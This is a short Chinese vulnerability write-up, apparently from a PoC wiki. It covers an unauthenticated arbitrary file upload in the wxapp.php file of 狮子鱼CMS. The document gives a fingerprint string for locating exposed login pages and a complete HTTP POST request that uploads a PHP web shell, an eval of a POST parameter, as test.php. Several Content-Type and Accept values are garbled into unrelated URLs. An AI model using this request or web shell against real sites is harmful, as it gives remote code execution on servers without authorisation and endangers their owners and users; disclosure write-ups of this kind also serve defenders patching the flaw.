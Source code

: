 # 狮子鱼CMS wxapp.php 任意文件上传漏洞

# 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下

![](/images/202202170927506.png)

发送请求包上传PHP文件

```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST['test']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

![](/images/202202170927684.png)



![](/images/202202170927948.png)

